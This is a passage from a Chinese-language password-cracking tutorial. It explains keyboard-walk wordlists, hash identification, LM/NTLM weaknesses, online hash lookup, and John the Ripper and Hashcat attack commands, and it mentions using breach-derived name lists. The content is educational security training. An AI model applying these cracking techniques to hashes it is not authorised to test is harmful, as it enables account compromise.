$ ./kwp basechars/full.base keymaps/en.keymap routes/2-to-10-max-3-directional-changes.route > basic kwp.txt
```

然后，你可以将生成的文本文件作为词表用于 `Hashcat`。

要创建更复杂的词表，使用较大的路径文件之一：

```
$ ./kwp basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-directional-changes.route > largekwp.txt
```

```
qwertyuiop[|pop| 
-=0987654321qazaq
1234567890-=098i 
'1234567890-0987u 
qwertyuiop[|poik 
-0987654321 1234r
-=09876543212345t 
]|poiuytrewqwertg
-0987654321 12343 
-=098765432123454 
]|poiuytrewqwertr
1234567890-=0989
```

### 外语键盘行走

如果你需要破解外语键盘行走，只需使用外语键盘布局文件之一。

因此，要创建一个俄语键盘行走词表：

```
./kwp basechars/full.base keymaps/ru.keymap routes/2-to-16-max-3-direction-changes.route > rukwp.txt
```

生成的文件如下：



如果我们的密码哈希列表包含生成的任何单词，它就会破解它们。

`Hashcat` `KWP` 工具非常适合快速创建键盘路径行走词表。更改键盘语言也很简单，这在破解国际密码时可能会派上用场。如果你想了解更多关于 `KWP` 的信息，请访问 `Hashcat` `GitHub` 页面 - https://github.com/hashcat/kwprocessor

### 词表总结

在本章中，我们介绍了词表，如何查找词表，或者如何创建自己的词表。词表是密码破解的重要组成部分，因此掌握使用词表的技巧是很好的。你遇到的大多数现代密码通常都是名字、数字和符号的组合。我在破解密码时大量使用 `Ignis` 列表。我使用 `Hashcat` `Combinator` 工具来组合较小的 `Ignis` 列表。

我广泛使用的其他词表是 `Facebook` 名字和姓氏列表。这些是来自 `Facebook` 数据泄露的用户名词表。这两个列表对于使用 `Combinator` 工具来说相当大，但它们与较小的 `Ignis` 列表或数字列表组合使用也非常有效。

在我们继续介绍如何使用词表结合破解工具来破解哈希之前，理解什么是哈希以及存在哪些不同类型的哈希非常重要。我们将在下一章中讨论这些内容！

# 第4章

## 确定哈希类型与破解简单密码

计算机操作系统和应用程序通常以加密形式存储密码，称为密码哈希。哈希是实际密码的加密表示。因此，需要解密或破解哈希才能找到真实密码。令人惊讶的是，一些服务仍以明文形式存储或传输密码！但在大多数安全测试中，当你恢复用户密码时，它通常处于加密的哈希形式。

在创建哈希时使用了多种不同的加密类型。在本章中，我们将首先讨论如何确定你恢复的哈希类型。然后，我们将讨论简单的（且已过时的）`Microsoft` `LM` 密码哈希，并了解如何在线破解这些哈希。我们将在后续章节中更详细地介绍使用破解工具进行密码破解。

### 不确定你拥有哪种类型的哈希？

当你开始破解密码时，会遇到几种不同类型的哈希。我们在第一章中深入介绍了 `Kerberos` 票据。但最让人困惑的通常是不同的 `Windows` 哈希。让我们快速解释一下这些概念。

- **LM 哈希** – 一种过时的密码哈希，可追溯到早期的 `Lan Manager` 时代。`LM` 哈希不再被默认存储，但你仍可能偶尔发现它们的存在。
- **NTLM 哈希** – 由 `LM` 哈希和 `NT` 哈希（`NTHash`）组成，中间用冒号分隔。这是你在从 `Windows SAM` 数据库或域控制器数据库中转储密码时会看到的内容。`NTLM` 哈希可用于“传递哈希”(`Pass the Hash`)类型的攻击。
- **NTLMv1 或 NTLMv2** – 这些是质询响应哈希，`NTLMv2` 更加安全。当你使用 `Responder` 等程序时，可以捕获这些哈希。你可以将这些哈希用于中继攻击，尽管你不能将哈希中继回源机器，必须是另一个系统。你可以禁用较弱的 `NTLMv1` 哈希，但你需要确认这在你的网络中是否是一个可行的解决方案，特别是如果你有遗留系统。

为了不让情况变得更令人困惑，`NTLMv1/v2` 哈希也被称为 `Net-NTLMv1` 或 `Net-NTLMv2`。有时，你可能能够获取密码哈希，例如从数据库或软件应用程序中，但仅凭第一眼可能无法确定其类型。你需要知道正确的类型，以便告知破解程序尝试哪种解密算法。`Kali` 中有几个哈希识别程序，可以试图识别你提供的哈希类型。

“`Hash-identifier`” 和 “`Hash ID`”

我们将快速浏览这些应用程序，然后简要讨论破解 `LM/NTLM` 哈希。

#### Hash-Identifier

`Hash-Identifier` 是一个非常简单的工具。只需运行它并输入哈希值。程序将检查并返回最可能的哈希类型，以及不太可能的类型。

- 在 `Kali` 中打开终端提示符
- 输入 "`hash-identifier`"

将下方的 `LM` 哈希复制并粘贴进去，`Hash Identifier` 将尝试确定其类型：

“`8846f7eaae8fb117ad06bdd830b7586c`”

如下所示：



`Hash Identifier` 首先返回最“可能”的加密类型。它还包括其他多种潜在类型，包括“最不可能”的加密类型。一旦知道了加密类型，你就可以继续破解哈希——这在后面会有详细介绍。

完成后，使用 (`Ctrl-c`) 退出 `Hash-Identifier`。

#### Hash ID

`Hash ID` 是一个功能非常相似的程序：

- 在终端中输入 "`hashid`"

你会看到一条空行。输入你要破解的哈希值并按回车：

```
kali@kali:~$
$ hashid
8846f7eeee8fb117ad06bdd830b7586c
Analyzing '8846f7eeee8fb117ad06bdd830b7586c'
 [+] MD2
 [+] MD5
 [+] MD4
 [+] Double MD5
 [+] LM
```

同样，列出了多种可能的哈希类型，最可能的排在最前。按 (`Ctrl-c`) 退出。

我不完全确定这两个程序之间的区别，但 `Hash-Identifier` 似乎略有帮助。当你尝试在标准的破解程序（如 `Hashcat` 或 `John the Ripper`）中使用哈希时，通常它会告诉你是否选择了错误的哈希类型，并可能推荐正确的类型。由于我们在上面的示例中使用了 `LM` 哈希，让我们稍微谈谈如何破解它们。

#### 破解简单的 LM 哈希

许多 `Windows XP` 系统使用 `Lan Manager` (`LM`) 哈希来保护其密码。这是一种非常古老且过时的密码哈希存储方式。这种哈希过程是为 `Windows NT` 之前的系统创建的。信不信由你，即使在今天的现代网络中，你仍然可以发现正在使用的 `LM` 哈希。在本章中，我们将研究如何破解这些简单的 `LM`（以及一些简单的 `NTLM`）哈希。

`Microsoft` 对 `Windows XP` 的支持已于 2014 年结束。截至 2023 年 1 月，令人惊讶的是，全球仍有约 .5% 运行 `Windows` 操作系统的计算机在使用 `XP`！`XP` 仍在计算机市场份额中勉强保持地位，仅落后于 `Windows 8`，而 `Windows 10` 仍居首位。令人震惊的是，这意味着仍有许多 `Windows XP` 系统可能处于业务关键位置。



来源：`Statcounter` 全球统计 – 2023年2月<sup>1</sup>


计算机加密密码的方法有多种。最安全的方法之一包括对密码进行“加盐”（`Salting`）。基本上，这意味着使用一个数字或字符串（称为盐值）并将其纳入哈希过程，以确保两个密码哈希永远不同。如果未使用盐值（如 Microsoft `NTLM` 哈希那样），如果你能破解一个哈希，那么所有使用相同密码的用户都将拥有相同的哈希。因此，你只需获取哈希并与已知哈希进行比较，如果匹配，你就得到了密码。

基本上，在使用 `LM` 哈希的系统中，任何不超过 14 个字符的密码都会被转换为全大写，然后拆分为两个 7 字符的密码。每一半随后被加密并组合形成最终的哈希。仅使用大写字母破解 7 字符密码是轻而易举的，这就是 `LM` 哈希安全性不高的原因。

再次强调，由于没有使用盐值，基本上如果你能从系统中获取 `LM` 哈希，你只需进行查找表比较与其他已知哈希，即可获得实际密码。`LM` 哈希通常与加密更好的 `NT` 哈希一起存储。这两个哈希的组合称为 `NTLM` 哈希。Windows `NTLM` 哈希的一个奇怪注意事项是，如果密码超过 14 个字符，则根本不使用 `LM` 哈希，并且 `LM` 哈希的内容将无效。在 Windows 系统上也可以关闭存储弱 `LM` 哈希的功能，这在大多数较新的操作系统中都是如此。

典型的 Windows `NTLM` 哈希看起来像这样：

```
ac93c8016d14e75a2e9b76bb9e8c2bb6:8516cd0838d1a4dfdl ac3e8eb9811350
```

`LM` 哈希位于冒号的左侧，更安全的 `NT` 哈希位于右侧。`LM` 和 `NT` 哈希的组合被称为 `NTLM` 哈希。

### 在线破解 LM/ NTLM 密码哈希

有几个网站允许你输入 Windows `NTLM` 哈希，它会返回所使用的密码（如果在查找表中）。`CrackStation` 是比较受欢迎的其中一个。`CrackStation` 的网站提供了一个在线界面，使用其查找表在几秒钟内破解许多 `LM/NTLM` 哈希。让我们尝试使用这个在线工具破解一个哈希。

让我们破解一个哈希！这是来自 XP 机器的 `Administrator` 密码哈希：

哈希：`aad3b435b5140eeaad3b435b51404ee:31d6cfe0d16ae931b73 c59d7e0c089c0`

现在，

- 访问 `Crackstation`, (`https://crackstation.net/`)

该网站要求提供冒号左侧的 `LM` 哈希，或右侧的 `NTHash`。

选择一个并将其粘贴到 `CrackStation` 的查找提示框中。确保你绝对不是机器人，然后点击“crack hashes”。

大约一秒后，你应该会在下一个截图中看到结果。



瞧，密码真的是没有密码！看起来管理员没有设置密码，这不太好。让我们尝试使用本章第一个示例中提到的 Hash：



再次，网站在大约一秒内返回了 *password*。正如我们从破解速度所看到的，使用密码 *password* 与根本不使用密码几乎没有区别。

还有其他在线破解工具可用，但你在使用它们时必须非常小心。有些工具现在会通过你的浏览器运行比特币矿工，同时它在破解密码。这些网站中有一些比较礼貌，会询问你是否介意为你运行矿工作为使用他们服务的“报酬”，但我也见过其他网站，无论你是否愿意，它们都会直接运行矿工。我个人不再使用在线网站进行破解，已经很久没有用过了。我使用内置于 Kali 的密码破解工具，我们将在后续章节中讨论这些工具。

基本上，如果你的系统仍在使用 `LM` 哈希，且你的密码长度在 14 个字符或以下，密码可能在很短的时间内被破解。当然，这些是 Windows `LM` 哈希，而不是更安全的基于 Windows 7/ Server 2008 的 `NTLM` 哈希。但是，随着破解速度的提高，如果用户使用了简单的密码，`NTLM` 哈希也可以被快速破解。`NTLMv2` 哈希更难被破解，但随着破解速度的提高，仅依赖密码可能不再是一个良好的安全措施。许多公司和政府机构已经从仅使用密码转向使用双因素身份验证方法。生物识别和智能卡在安全设施中真的变得非常流行。

### 结论

在本章中，我们讨论了计算机通常将密码以加密形式（称为哈希）存储在系统的安全数据库中这一事实。用户的密码以某种方式加密，并记录生成的加密哈希。我们还了解到 Windows `LM` 哈希并不非常安全，使用简单的查找表或有时被称为“彩虹表”即可轻松破解。如果在某个在线数据库中找不到 `LM` 哈希，则需要使用破解程序。你可以关闭 `LM` 哈希，参见下方资源部分中的 Microsoft 文章。尽管安全研究人员发现，一些联网系统和程序可能仍出于向后兼容性的目的而使用它们（即使已关闭！）。因此，令人难以置信的是，它们仍然可以在现代系统上被发现。如果你无法在在线网站上找到哈希，那么我们将需要使用 Kali 中的工具来实际破解密码。

### 资源与参考文献

1. 数据由 Net Market Share 提供 - `https://gs.statcounter.com/windows-version-market-share/desktop/worldwide#monthly-202201-202301`

2. “如何防止 Windows 存储 LAN Manager 哈希。” Microsoft，2023 年 2 月 23 日 - `https://learn.microsoft.com/en-US/troubleshoot/windows-server/windows-security/prevent-windows-store-lm-hash-password`

3. Dieterle, D. “在五秒内破解 14 位字符的复杂密码。” CyberArms，2010 年 10 月 10 日 - `https://cyberarms.wordpress.com/2010/10/21/cracking-14-character-complex-passwords-in-5-seconds/`

4. Byt3bl33d3r, “2017 年 NTLM 中继实用指南。” Byt3bl33d3r，2017 年 6 月 2 日 - `https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html`

## 第 5 章

`John the Ripper`

既然我们已经涵盖了大量的密码理论基础和词表的认知，让我们来深入研究一下破解工具！在接下来的几个章节中，我们将查看我最喜欢的两个工具：`John the Ripper` 和 `Hashcat`。我们看到有时你只需进行一次在线哈希查找，在某些情况下，你可以传递哈希。但如果其他方法都失败了，你就必须破解哈希。Kali 包含了几个执行此操作的出色工具。我们将在本章中快速介绍 `John the Ripper`，然后在接下来的章节中深入研究 `Hashcat`。

### 密码破解工具简介

我们依靠密码来保护家庭系统、业务服务器以及我们的在线账户信息。但随着破解程序的改进和视频卡变得更快（视频 GPU 用于非常快速的破解），密码变得更容易被破解。这是一个多大的问题？我一直在使用 `Hashcat` 处理一些非常大的公开泄露的密码哈希列表。我使用一台较旧的 Windows 11 系统，配备运行速度为 3.4 Ghz 的 Core i7-6700 处理器和单张 RTX 2060 视频卡。我看到它的破解速度超过每秒 10 亿个哈希。当你想到这一点时，这太疯狂了！而且这只是使用单张视频卡。较新的顶级显卡快得多，特别是当你使用多张显卡进行破解时（我见过拥有许多显卡的设备）。


当然，这些是简单的 SHA1 加密哈希，使用较新的加密或加盐密码的哈希破解起来要花费更长的时间。加盐密码使用唯一的值或盐来加密每个密码，因此没有任何两个密码哈希是相同的。但不管你信不信，今天找到使用未加盐密码的公开密码泄露数据仍然非常普遍。再加上 Hashcat 的新版本将最大可破解的密码长度从 32 增加到 256 的事实，这会让你重新考虑公司的密码长度和复杂度策略。

基于视频 GPU 的破解工具和基于 CPU 的工具之间存在巨大的速度差异。Hashcat 是最受欢迎的“世界上最快”的基于 GPU 的破解工具之一。John the Ripper 是最受欢迎的基于 CPU 的破解器之一。我们将查看两者，首先，John the Ripper！

## JOHN THE RIPPER

**工具作者**：Solar Designer 和社区

**工具网站**：[https://www.openwall.com/john/](https://www.openwall.com/john/)

John the Ripper，或 John（或 JTR）是一个速度非常快的基于 CPU 的密码破解器。它非常易于使用，通常是在尝试破解密码时使用的首选工具。John 在破解短密码方面非常擅长，所以我通常先使用 John 来获取低垂的果实或简单的密码，然后转向 Hashcat 进行更复杂的破解。因此，我们将只快速介绍 John。

### JOHN THE RIPPER 概述

John the Ripper 是一款开源的密码破解软件，广泛用于渗透测试、道德黑客和取证分析。由 Solar Designer 开发，由于其有效性和灵活性，该工具已成为网络安全社区的常用工具。

**密码哈希破解**

John the Ripper 擅长破解各种类型的密码哈希。它支持数百种哈希和加密算法，包括 DES、MD5、SHA-1、SHA-256、Bitlocker、归档（ZIP、RAR）等。这种通用性使其适合处理各种攻击安全（Offensive Security）和取证用途。

**词表混合攻击**

John 支持使用词表的字典攻击，允许用户利用常用密码或基于特定标准创建自定义列表。此外，它可以执行混合攻击，将词表与暴力破解方法结合起来，以增加成功的可能性。

**多平台支持**

John the Ripper 与平台无关，可在各种操作系统上运行，包括 Unix、Linux、Windows 和 macOS。这种灵活性使其成为在多样化环境中工作的安全专业人士的宝贵资产。

**常用开关**

为了充分发挥 John the Ripper 的潜力，安全专业人士利用各种命令行开关来定制和优化他们的密码破解工作。以下是一些常用开关及其示例。

（更多示例请见 [https://www.openwall.com/john/doc/OPTIONS.shtml](https://www.openwall.com/john/doc/OPTIONS.shtml)）

**--format**

指定密码文件中使用的哈希算法。John the Ripper 自动检测许多格式，但此开关允许用户明确定义模糊情况的格式。

```
$ john --format=md5 hashed_passwords $
```

**--fork**

允许使用多个 CPU 的 Linux 选项

```
$ john --fork 4 $
```

**--wordlist**

指定词表文件的路径。此开关对于字典攻击至关重要，有助于定义要测试的潜在密码集。

```
$ john --wordlist=/path/to/wordlist.txt hashed_password $
```

**--rules**

启用基于规则的密码生成，允许用户将转换规则应用于词表中的单词。规则可以包括排列、大小写修改和字符替换。

```
$ john --wordlist=/path/to/wordlist.txt --rules=Jumbo hashed_passwords $
```

**--incremental**

启动增量暴力破解攻击，系统地测试所有可能的密码组合。用户可以自定义字符集和密码长度以匹配特定场景。

```
$ john --incremental=alnum hashed_passwords $
```

**--show**

在破解过程中显示已破解的密码。此开关提供实时反馈，对于监控进度非常有用。破解完成后，你还可以再次运行此命令来显示已破解的密码。

```
john --show hashed_passwords
```

### JOHN THE RIPPER 实战应用

John 使用起来非常简单，只需输入“john”以及要破解的密码文件，John 便会开始运行。John 会尝试自动检测密码文件中的哈希值。如果无法自动检测，它会提示你使用“`--format=`”命令输入正确的加密格式。下图是使用 John 破解大型 SHA1 密码转储文件的示例：

```
$ john [password_hash_list] --format=Raw-SHA1
```



如前所述，对于基于 CPU 的破解器而言，John 的速度很快。在上例中，我向 John 提供了超过 1600 万个哈希值的列表。它在大约 15 分钟内就找到了我正在尝试破解的 200 多万个密码。之后，它便空转且没有实质进展。此时，我本可以使用 John 的一些高级功能来破解该列表，但我转而去使用 Hashcat 了。

当你确实破解了一个密码哈希文件时，任何恢复的凭据都会存储在 John 的 pot 文件中。pot 文件位于你的 `~/.john/`（隐藏）目录中：

```
$ cd .john
(kali@kali):~/.john$ ls
john.log   john.pot   john.rec
```

如果你打开 pot 文件，可以看到密码哈希值，已破解的密码位于右侧：



你也可以使用“`john [password_hash_list] --show`”来查看已破解的密码。如果你退出 John 破解会话，状态将自动保存。你可以使用“`john [password_hash_list] --restore`”来恢复已保存或退出的会话。

### 结语

这只是对 John 的非常简要的介绍。在安全测试中，我通常先对能够恢复的小型哈希值组使用 John。这就是我使用 John 的程度。如果你恢复了单个哈希值并需要快速破解它，或者你有一大批基础哈希值列表，John 是一个很好的工具。对于任何大型或更复杂的情况，我都会立即切换到 Hashcat。与任何工具一样，试着使用它，看看如何将其纳入你的工具箱。你可能会比 Hashcat 更喜欢 John。无论如何，熟悉两者都是有好处的。



John the Ripper 的 Wiki 包含大量教程和操作指南

如需更多信息，包括从基础到高级的教程、综合用户指南和使用文章，请访问该工具的 Wiki [https://openwall.info/wiki/john](https://openwall.info/wiki/john)。

## 第 6 章

### Hashcat

**工具作者**：Jens Steube 和 Hashcat 开发团队  

**工具网站**：[https://hashcat.net/hashcat/](https://hashcat.net/hashcat/)  

**工具 Wiki**：[https://hashcat.net/wiki/](https://hashcat.net/wiki/)

Hashcat 是一款通用密码破解器，可以基于你的显卡处理器（GPU）或 CPU 运行。Hashcat 被誉为世界上最快、最先进的密码破解器。该工具是一个多线程破解器，如果你的 CPU 可以运行多个线程，它将会使用它们。但真正的速度优势在于使用 GPU 时，即你显卡上的处理器。你的 GPU 专为计算能力而设计，所有的算力都用于破解密码。你甚至可以利用多张显卡的 GPU 来打造一台强大的破解工作站。

密码破解是我的爱好。在过去的 10 多年里，我个人使用 Hashcat 破解了数亿个密码。当我破解的密码数量达到四十种不同语言后，我就停止统计了。我使用它恢复了无数真实世界的密码，甚至还包括大量打包在公开密码转储文件中、由超过一百个字符组成的无意义字符串，使其看起来规模更大。没有任何密码破解工具能让我像 Hashcat 这样推崇备至。它快速、高效，并且令人惊叹！

以下是我最近使用 Hashcat 破解的一些真实世界密码的示例：

```
–_+)&#33*;)*LSGMsd34sglIOC55^
cV1so@7f3*tw9lb_
spongebobs_only_wifey
Sahana_forever<3
```

Henry2009å,¬


wearethekingsandthequeensofthenewbrokenscene

这些并不是最长或最复杂的。我只是想展示 `Hashcat` 同样擅长处理随机复杂密码、字典单词、多个单词组合以及外语字符。当然，还有一部分是添加到公开转储文件中以使其看起来更大的无意义数据。

比如这一条：

ѿѤ2апЧ3¹Ð»Ð¹ÑÑÑÑмоÑ,ÑÑѱÑ.

这是一个随机俄语 YouTube 视频的链接！黑客经常会在公开转储文件中填充随机链接、文本文件等各种内容，以使其看起来比实际大得多，从而获得“街头信誉”。这也使破解变得更难，但这种挑战非常有趣！

你可以在 Windows 系统上下载并运行 `Hashcat`，或者它已经安装在 Kali Linux 上。虽然我个人更喜欢在我的 Windows 游戏 PC 上使用 `Hashcat` 进行密码破解，但我将介绍在 Kali Linux 上使用 `Hashcat`。两者的用法完全相同，所以请根据你喜欢的操作系统进行选择。在 Windows 上，只需从工具网站下载可执行文件并运行它，对于大多数现代 Windows 系统，通常是 `Hashcat64.exe`。

在 Kali 中，可以从菜单启动 `Hashcat`（`05-密码攻击 > Hashcat`），或者打开终端并输入“`hashcat`”。通过输入“`hashcat --help`”，你可以查看不同的选项：



使用 `Hashcat` 时，你需要告诉它以下几件事：

- `密码哈希类型`
- 包含未破解哈希值的文件名
- 字典或词表文件名
- 用于存储已破解哈希值的输出文件名
- 最后，攻击模式类型以及你想要设置的其他选项开关

`Hashcat` 最基本的用法是使用单个词表文件。

### 示例：

```
hashcat --remove -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -O
```

在使用 `Hashcat` 破解时，我总是使用“`--remove`”开关。这告诉 `Hashcat` 从未破解词表中移除已破解的单词。如果不移除，它们会保留在未破解词表中，从而延长破解时间。你还需要向 `Hashcat` 提供正确的哈希类型。“`-m 0`”是要尝试破解的哈希类型。在示例中，“`0`”指定哈希是 MD5。`Hashcat` 能够破解多种哈希值。使用“`hashcat --help`”命令可以列出支持的哈希类型。

受支持的 `-m` 哈希类型简表：

| # | 名称 |
| :--- | :--- |
| 900 | MD4 |
| 0 | MD5 |
| 5100 | Half MD5 |
| 100 | SHA1 |
| 1300 | SHA2-224 |
| 1400 | SHA2-256 |
| 10800 | SHA2-384 |
| 1700 | SHA2-512 |
| 17300 | SHA3-224 |

末尾的 `-O` 告诉 `Hashcat` 你不需要破解超长的密码（最多 256 个字符！），因此它专注于破解不超过 32 个字符的密码，运行速度会快得多。是的，确实存在一些非常长的密码，但大多数情况下仅出现在公开转储文件中。我破解过的最长的哈希值超过 100 个字符——都是来自公开密码转储文件的无意义文本行。

> *注意：为了简洁起见，大多数示例中未显示“`--remove`”和“`-O`”参数*

最后，你可以使用“`-D`”开关指定在黑客攻击中使用哪个处理器。

| # | 设备类型 |
| :--- | :--- |
| 1 | CPU |
| 2 | GPU |
| 3 | FPGA, DSP, Co-Processor |

在使用 GeForce 显卡的工作站上，你可以使用“`-D 2`”来指定显卡的 GPU。如果你使用的是虚拟机，则使用“`-D 1`”选项。在开始破解之前，让我们先谈谈一些基本的破解技术。你可以使用词表、词表和规则、组合词表、暴力破解以及结合词表的暴力破解。我们将简要介绍每一种方法。

### HASHCAT 攻击类型

“`-a`”选项允许你指定攻击模式类型。`Hashcat` 有多种攻击模式，你需要指定想使用哪一种。唯一不需要使用它的时候是你进行单词词表或直线模式攻击时。

可用的攻击类型包括：

- `0 = 直线（Straight）`
- `1 = 组合（Combination）`
- `3 = 暴力破解（Brute-force）`
- `6 = 混合 词表 + 掩码（Hybrid Wordlist + Mask）`
- `7 = 混合 掩码 + 词表（Hybrid Mask + Wordlist）`

**直线（Straight）**：单词表攻击。词表中的每个单词都会针对每个密码哈希值使用。你也可以在此模式下使用规则。

**组合（Combination）**：将不同词表中的单词组合起来，动态创建新单词。

**暴力破解（Brute-force）**：输入你自己的字符、数字和符号组合，或使用掩码攻击进行自动化猜测。例如：`?u?l?s?d?a`（大写、小写、符号、十进制、全部）会尝试破解像 "`Aa!0a`" 到 "`Zz!9z`" 之间以及所有中间值的密码。你还可以使用`"?b"`代表二进制（00-ff），这在破解外语密码时很有用。

**混合攻击（Hybrid Attacks）**：将词表与暴力破解字符或预定义掩码结合使用。例如，使用 Rockyou 词表配合掩码 `?u?l?s?d?a`，会产生像 "`passwordAa!0a`" 和 "`monkeyZZ!9z`" 这样的哈希猜测尝试。

#### 单一字典

**-a0 直接攻击或单一字典攻击** - 这是 `Hashcat` 中最简单的攻击方式。`Hashcat` 将使用单一字典针对密码哈希文件进行攻击。字典中的每个单词都会被直接哈希，并与密码进行比对。如果匹配成功，该密码即被“破解”。如果不匹配，`Hashcat` 将尝试字典中的下一个单词，并持续进行，直到字典中的每个单词都与密码哈希完成比对。

示例：

```bash
hashcat -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt]
```

你也可以在直接攻击模式中使用“规则（Rules）”。

#### 带规则的单一字典

规则会自动修改字典中的单词，从而极大地扩展你的猜测词库。你可以将它们视为用于修改字典中单词的编程脚本。它们可以增加或删除字符、修改大小写、使单词翻倍，或执行许多其他有用的操作。规则文件位于“`rule`”子目录中。查看每个规则文件，你可以看到用于修改每个单词的“编程语言”。

“`Best64`”规则是最受欢迎且运行速度较快的规则之一：

```bash
hashcat -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -r rules/best64.rule
```

你可以使用“`toggles`”规则切换字典中每个字符的大小写：

```bash
hashcat -m 0 [Uncracked.txt] wordlist1 -o [Cracked.txt] -r rules/toggles.rule -O
```

这将生成如下单词：

- cat, Cat, cAt, caT
- dog, Dog, dOg, doG

如果规则文件足够小，你可以同时使用两个规则文件。不过，这会产生巨大的猜测词库，有时可能会溢出可用内存，导致 `Hashcat` 退出。

```bash
hashcat -m 0 [Uncracked].txt wordlist.txt -o [Cracked.txt] -r rules/best64.rule -r rules/OneRuleToRuleThemAll.rule
```

将 "`best64`" 和 "`OneRuleToRuleThemAll`" 规则组合使用非常有效。这是我在破解时最喜欢的常用组合之一。`Hob0Rules` (`https://github.com/praetorian-inc/Hob0Rules`) 也相当不错。每个规则文件都略有不同，因此尝试它们并找出最适合你需求的规则是一个好主意。

#### 组合两个字典

**-a1 组合攻击** - 你可以使用 `-a1` 命令轻松组合两个字典。此命令将取一个列表中的每个单词，并与第二个列表中的每个单词进行组合。当用户在密码中将多个单词或字符串串联起来时，这种方法非常有用。

```bash
hashcat -m 0 [Uncracked.txt] -o [Cracked.txt] -a1 wordlist1 wordlist2 -O
```

将生成如下单词：

- cattog
- dogcat

`Hashcat` 还允许你在组合字典的末尾或中间添加单个字符。你可以使用“`-j`”或“`-k`”开关来实现。这允许你在组合字典的同时，在每个单词之间放入一个空格（或任何单个字符）。你可以使用“`-j`”开关来做到这一点：

```bash
hashcat -m 0 [Uncracked.txt] -o [Cracked.txt] -j$" " -a1 wordlist1 wordlist2 -O
```

这将生成如下单词：

- cat dog


- dog cat

在组合字典的每个单词末尾添加 `"!"`（或任何字符）。你可以使用 `-k` 开关来做到这一点：

```bash
hashcat -m 0 [Uncracked.txt] -o [Cracked.txt] -k$"!" -a1 wordlist1 wordlist2 -O
```

将生成如下单词：

- catdog!

- dogcat!

你还可以同时使用 `-j` 和 `-k` 开关。例如，要在中间使用空格组合字典，并在每个单词末尾添加 `"!"`：

```bash
hashcat64 -m 0 [Uncracked.txt] -o [Cracked.txt] -j$" " -k$"!" -a1 wordlist1 wordlist2
```

将生成如下单词：

- cat dog!

- dog cat!

### 掩码、暴力破解和混合攻击

掩码在 Hashcat 中用于执行暴力破解。在 Hashcat 中，使用 `-a3` 开关来指定。有些人反对暴力破解，因为它会浪费时间。它必须尝试模式的每一种组合，可能需要耗费大量时间——数小时、数天、数月，甚至数年！（附带一提，我从不让它可以运行超过一天，只是查看它已破解的内容以寻找新模式，然后尝试更好的掩码！）但这绝对是必要的，特别是在破解长度和复杂度未知的哈希时。当你已经用尽了所有的字典、规则和组合攻击时，暴力破解是一个对哈希进行“重新审视”的好方法，你可能会发现可以利用的模式。一旦你发现了模式，你可以退后一步，修改你的掩码使其更具排他性，或者切换到包含这些模式的专用字典。

使用掩码可以大大减少暴力破解时间。我最喜欢的破解技术之一是使用混合攻击，即字典和掩码一起使用。Hashcat 中有两种可用的模式 - `-a6` [字典 & 掩码]，以及 `-a7` [掩码 & 字典]。使用混合攻击比单独使用暴力掩码要快得多。我们将在本节中详细介绍所有内容。

#### 掩码

